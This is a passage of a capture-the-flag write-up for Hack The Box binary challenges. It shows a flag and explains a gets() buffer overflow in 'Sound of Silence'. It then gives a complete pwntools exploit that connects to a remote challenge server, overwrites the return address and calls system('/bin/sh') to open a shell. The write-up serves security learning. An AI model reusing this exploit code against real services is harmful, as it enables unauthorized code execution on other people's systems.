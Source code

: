 ```python
sla(b'>> ', p)
com()
```

![chall-sc](https://hackmd.io/_uploads/rkse-m1A6.png)

Flag: `HTB{b00m_b00m_r0ck3t_2_th3_m00n}`

# 6. Sound of Silence (_medium_)

> There is a buffer overflow vulnerability upon calling the function gets(v4, argv)

![chall-sc](https://hackmd.io/_uploads/Skdp6XkCa.png)

The Executable and Linkable Format (ELF) also has the system function in its Procedure Linkage Table. Based on my observation, our input will be stored in the Accumulator Register. Therefore, I input the string "/bin/sh\0" and then use the instruction mov rdi, rax, so it calls system("/bin/sh"), allowing us to achieve arbitrary code execution

![chall-sc](https://hackmd.io/_uploads/HyjT8uW0a.png)

```python
from pwn import *
exe = './sound_of_silence'
elf = context.binary = ELF(exe, checksec = 0)
context.bits = 64
context.log_level = 'debug'
context.terminal = ["kitty", "@launch", "--location=split", "--cwd=current"]
host, port = "nc 94.237.62.149 33617".split(" ")[1:3]
io = remote(host, port)
sla = lambda a, b: io.sendlineafter(a, b)
sa = lambda a, b: io.sendafter(a, b)
ru = lambda a: io.recvuntil(a)
s = lambda a: io.send(a)
sl = lambda a: io.sendline(a)
rl = lambda: io.recvline()
com = lambda: io.interactive()
li = lambda a: log.info(a)
rud = lambda a:io.recvuntil(a, drop=0x1)
r = lambda: io.recv()
int16 = lambda a: int(a, 16)
rar = lambda a: io.recv(a)
rj = lambda a, b, c : a.rjust(b, c)
lj = lambda a, b, c : a.ljust(b, c)
d = lambda a: a.decode('utf-8')
e = lambda a: a.encode()
cl = lambda: io.close()
p = lj(b'/bin/sh\0', 0x28, b'\0')
p += p64(0x000000000040101a) * 0x2
p += p64(0x0000000000401169)
sla(b'>> ', p)
com()
```
